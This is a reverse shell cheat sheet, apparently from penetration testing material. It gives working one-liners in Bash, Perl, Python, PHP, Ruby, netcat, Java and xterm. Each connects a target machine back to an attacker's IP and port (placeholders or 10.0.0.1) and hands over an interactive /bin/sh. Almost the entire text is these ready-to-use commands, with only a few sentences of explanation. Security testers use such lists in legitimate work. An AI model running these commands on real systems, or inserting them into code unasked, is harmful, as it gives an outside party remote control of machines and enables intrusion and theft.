 # Bash
bash -i >& /dev/tcp/*ip*/*port* 0>&1


# PERL
perl -e 'use Socket;$i="*ip*";$p=*port*;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("*ip*",*port*));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# PHP
php -r '$sock=fsockopen("*ip*",*port*);exec("/bin/sh -i <&3 >&3 2>&3");'


# Ruby
ruby -rsocket -e'f=TCPSocket.open("*ip*",*port*).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'


# Netcat->nc -e /bin/sh *ip* *port*
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f


## Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]



## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):


Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):
xhost +targetip
